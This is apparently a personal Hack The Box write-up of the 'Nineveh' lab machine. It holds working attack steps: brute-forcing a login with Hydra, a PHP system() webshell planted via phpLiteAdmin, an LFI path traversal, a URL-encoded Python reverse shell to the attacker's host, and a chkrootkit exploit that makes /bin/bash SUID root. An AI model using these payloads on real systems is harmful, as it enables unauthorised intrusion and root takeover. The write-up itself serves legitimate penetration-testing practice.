

# HTB - Nineveh

#### Ip: 10.129.69.39
#### Name: Nineveh
#### Rating: Medium

----------------------------------------------------------------------



### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.69.39 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-08 13:45 CDT
Nmap scan report for 10.10.10.43
Host is up (0.070s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.98 seconds
```

Ok looks just like HTTP and HTTPS open for this box. Lets add nineveh.htb to `/etc/hosts` first off.

Looking at the page on port 80 we find a basic HTML landing page:

```
It works!

This is the default web page for this server.

The web server software is running but no content has been added, yet.
```

And on port 443 we find a simple image:

nineveh_443.png

Using basic directory fuzzing we find a `/db` page, which appears to be a phpLiteAdmin page:

nineveh_db.png

After trying just a few low-hanging-fruit passwords, I found I was able to login with the password `password123`.

Looking for exploits for phpLiteAdmin 1.9 I find: https://www.exploit-db.com/exploits/24044

This exploit clearly lays out steps we need to take to exploit this:

```
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

Lets take this idea and try to create a webshell. We'll create a new db called shell.php, and add a table called shell. From here we can replicate the step above and add the text field `<?php system($_GET["cmd"]); ?>`.

nineveh_shell.png

CLicking create and returning to the shell.php db page we see it is being stored in `/var/tmp/shell.php` which means until we get deeper access to the target it doesn't seem usable to us yet.

Lets take step back and perform more thorough directory fuzzing:

For port 80:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 80_dirs.txt 
```

and port 443:
```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ feroxbuster --url http://nineveh.htb -k  -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php -o 443_dirs.txt 
```

Looking at the scan output we find a department login page:

nineveh_dirs80.png

nineveh_department.png

And looking at the page source we find an interesting comment:

nineveh_source.png

Looks like Mysql is running internally, and we also discover a potential username amrois.

Trying to login if we enter `admin` as the username and an incorrect password we get the error `invalid password!`, but if we enter something like `root:root` we get the error `incorrect username`. This lets us know the username `admin` exists.

Trying common passwords got me nowhere here so I fired up Hydra and we found a hit:

nineveh_hydra.png

`admin:1q2w3e4r5t`

We can now access the site:

nineveh_in.png

In the Notes section we find another note from amrois:

```
Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois
```

The path for Notes is: http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt

Which looks like its worth testing LFI here.

Fiddling around with placement, I eventually found an LFI at: http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../etc/passwd

nineveh_lfi1.png

Trying to use this LFI to interact with the shell.php file we uploaded earlier, we can confirm execution as user www-data:

nineveh_webshell.png

Lets grab a python reverse shell one-liner from revshell.com, URL encode it, and pass it as our command:

```
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt../../../../../../../var/tmp/shell.php&cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.214%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

```
┌──(ryan㉿kali)-[~/HTB/Nineveh]
└─$ nc -lnvp 443                                             
listening on [any] 443 ...
connect to [10.10.14.214] from (UNKNOWN) [10.129.69.39] 34386
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
www-data@nineveh:/var/www/html/department$ hostname
hostname
nineveh
```

Now that we have a shell on the target we can attempt to access the user.txt flag in amrois `/home` directory, but get an access denied:

```
www-data@nineveh:/home/amrois$ cat user.txt
cat: user.txt: Permission denied
```

Not finding much of interest I decided to load pspy64, and we find that `chkrootkit` is running very frequently:

nineveh_chkroot.png

Looking for exploits I find: https://www.exploit-db.com/exploits/33899

Lets create a file called `update` in `/tmp` that sets the SUId on `/bin/bash`

```
www-data@nineveh:/tmp$ cat update 
#!/bin/bash
/bin/chmod 4755 /bin/bash
```

We can then make it executable and assign it open permissions:

```
www-data@nineveh:/tmp$ chmod +x /tmp/update
www-data@nineveh:/tmp$ chmod 777 /tmp/update
```

We can wait just a second or two before running `/bin/bash -p` to drop into a root shell:

```
www-data@nineveh:/tmp$ /bin/bash -p         
bash-4.3# whoami
root
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

And we can now grab the two flags:

nineveh_user_flag.png

nineveh_root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------

